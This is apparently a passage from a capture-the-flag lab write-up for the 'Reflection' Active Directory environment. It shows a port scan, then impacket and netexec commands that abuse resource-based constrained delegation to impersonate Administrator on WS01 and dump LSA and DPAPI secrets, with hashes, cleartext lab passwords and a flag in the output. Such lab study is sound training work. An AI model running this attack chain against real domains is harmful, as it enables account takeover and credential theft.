


As usual I will start by checking for open services over the TCP stack.

```bash
PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: ws01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-19T08:27:09+00:00
|_ssl-date: 2026-03-19T08:27:49+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=ws01.reflection.vl
| Issuer: commonName=ws01.reflection.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-18T03:37:33
| Not valid after:  2026-09-17T03:37:33
| MD5:     7903 e7ec a6ae 0050 415c 30f5 389a 2b07
| SHA-1:   e9b5 76d2 3304 2a72 f376 d47d 6518 be1d e7fa b4c8
| SHA-256: b318 443b f3dd 09d5 5ca7 7a20 7dc0 bcf1 4b16 4ee8 e4fc 0075 0701 690b 8dae cdc5
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQYZHUGdZ6M4VCVkt5nzK12DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJ3czAxLnJlZmxlY3Rpb24udmwwHhcNMjYwMzE4MDMzNzMzWhcN
| MjYwOTE3MDMzNzMzWjAdMRswGQYDVQQDExJ3czAxLnJlZmxlY3Rpb24udmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCxFJjlBOcEKkMvum/X4QJi4oVD
| KovOlPpSxhIBshEnKxmRD6L/Rp2/vTiSMALDo2J59joGiepcgSMlx3DjBJO885Cb
| LG3Tma0mBrz0z/VwEtw+So6tZuwokPZ7bpU2xzv5qbo/bPUoHFuv16NBxXPwkBA4
| KYtVmnDxvqQz4Rrof/eFs0KED7LkFaUAtKFfTD0QdP2r+izkNVCIXDQWa+UYtxEq
| ICqxzlb9ww2o1EfACafGEbBVtYbOaBtOtY7SQ6PRmkgY7Uz7BzyA+IX7qeszeeeG
| ouM2gh3fPTz2amJsbizXHEqVkaxyZHttJqn4zJZEruj4glScFyYqjW38+P8JAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEAhndV6+7GPgd/JFwzN1IGOZhA/saJS6odvBspfvx1aWxzX877
| 1iykBlYTP5uT6CChlzXJKxzNP6DESQSRR9G8Odr1ZSk++ucYCAXf0iMEZnDuEkM5
| Ddtjmy9b0f/pT6ESOBBayKaaFknIBstmUdmfgtrmWaSZG58xQKgm0oS7dpJnppkl
| JoDaT+Yx8yvrixwZ54vqAexYnfbm5AvnxqALPhfucUzBVEaDfjDRzEna667VJxSl
| WLGHyc1IJWxQS+nDfoRC8i5S618gT1S4FqrYozApxR3qjBp58FE+pwK4qCjYHOJS
| kptKn9ci3dTBvtLviRyQ4iA31UfaB2TmXNtyMg==
|_-----END CERTIFICATE-----
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/19%OT=135%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69BBB382%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=U)
SEQ(SP=107%GCD=1%ISR=107%TI=I%II=I%SS=S%TS=U)
OPS(O1=M552NW8NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

# Back on track

With the credentials obtained by the DPAPI secrets dump from the MS01 server I can see that this new user has total control over this computer object in AD:



Now this time the LAPS is not active which means I can do a RBCD alternative the Shadow credentials(but since it is applied on a HOST it might not be so relevant here).

Now I can't add a new PC but I can use MS01 and write it on the WS01, because this attack requires a SPN with a controller object.

```bash
└─$ impacket-rbcd -delegate-from 'MS01$' -delegate-to 'WS01$' -action 'write' reflection.vl/georgia.price:'DBl+5MPkpJg5id'                                    
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)

```

And now I can use the credentials of MS01 computer object from AD to request a service ticket for an administrative user. Now Protected Users are not populated which means I should be able to impersonate Administrator in one go!



```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Reflected]
└─$ impacket-getST -spn 'cifs/ws01.reflection.vl' -impersonate 'Administrator' reflection.vl/ms01$ -hashes :b9a431d8db983cbe5599374a56982380
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Reflected]
└─$ export KRB5CCNAME=Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache           
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Reflected]
└─$ netexec smb ws01.reflection.vl -u Administrator --use-kcache                                                                            
SMB         ws01.reflection.vl 445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:None)
SMB         ws01.reflection.vl 445    WS01             [+] reflection.vl\Administrator from ccache (Pwn3d!)

```

And now I can also perform a dump of more secrets unveiling the cleartext credentials of another AD user.

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Reflected]
└─$ netexec smb ws01.reflection.vl -u Administrator --use-kcache --lsa --dpapi
SMB         ws01.reflection.vl 445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:None)
SMB         ws01.reflection.vl 445    WS01             [+] reflection.vl\Administrator from ccache (Pwn3d!)
SMB         ws01.reflection.vl 445    WS01             [*] Dumping LSA secrets
SMB         ws01.reflection.vl 445    WS01             REFLECTION.VL/Rhys.Garner:$DCC2$10240#Rhys.Garner#99152b74dac4cc4b9763240eaa4c0e3d: (2025-05-19 04:42:22)
SMB         ws01.reflection.vl 445    WS01             REFLECTION\WS01$:plain_password_hex:f9100005671b860fdcebadb366b7e69c82f948865e7e4e902164ca3de002e63d548cacbf5cf7a7b15e87570dedcf19dd476b0a647568a7bc2b6b5cf054222b7a73805dca799831771bc0b979289361cdc22eeb8e19049c10b3d690fc54ea8b3024f49947236463e17406e113520d1415ec85bc739db7b7dff7102307b9a210b217e8a0f29df478702938d49e468a1222cabc1e4543702cb6cf9845a7293deccde05b7b43cfd14e179263f230b8659739612431a5f7dc8b4376722d63008f70d5d9789e7686d213a4ce8114488033acb2e30b80465b386da68232360a3a18350cafbc1199b8b67bf6bbeed00ebd027dee
SMB         ws01.reflection.vl 445    WS01             REFLECTION\WS01$:aad3b435b51404eeaad3b435b51404ee:5b7a63ec4739f7a34af59ba194054aa0:::
SMB         ws01.reflection.vl 445    WS01             reflection.vl\Rhys.Garner:knh1gJ8Xmeq+uP
SMB         ws01.reflection.vl 445    WS01             dpapi_machinekey:0xe7b434bbb2fe36946ecafdfab07d4396c039c6e8
dpapi_userkey:0xf772db3cfa86d2d96caf0fc57946c6e7c17511eb
SMB         ws01.reflection.vl 445    WS01             [+] Dumped 5 LSA secrets to /home/millycash/.nxc/logs/lsa/WS01_ws01.reflection.vl_2026-03-19_110355.secrets and /home/millycash/.nxc/logs/lsa/WS01_ws01.reflection.vl_2026-03-19_110355.cached
SMB         ws01.reflection.vl 445    WS01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         ws01.reflection.vl 445    WS01             [+] Got 10 decrypted masterkeys. Looting secrets...
                                                                                                            
```

And I can grab another flag.

```bash
# cd Desktop
# ls
drw-rw-rw-          0  Thu Jun  8 13:25:51 2023 .
drw-rw-rw-          0  Thu Jun  8 13:25:51 2023 ..
-rw-rw-rw-        282  Thu Jun  8 13:17:10 2023 desktop.ini
-rw-rw-rw-         41  Mon May 19 07:45:01 2025 flag.txt
# cat flag.txt
REFLECT{57626b5d6efa8dfbefe883638568e338}
# pwd
/users/Rhys.Garner/Desktop
# cd ..
# cd Dow

```

&nbsp;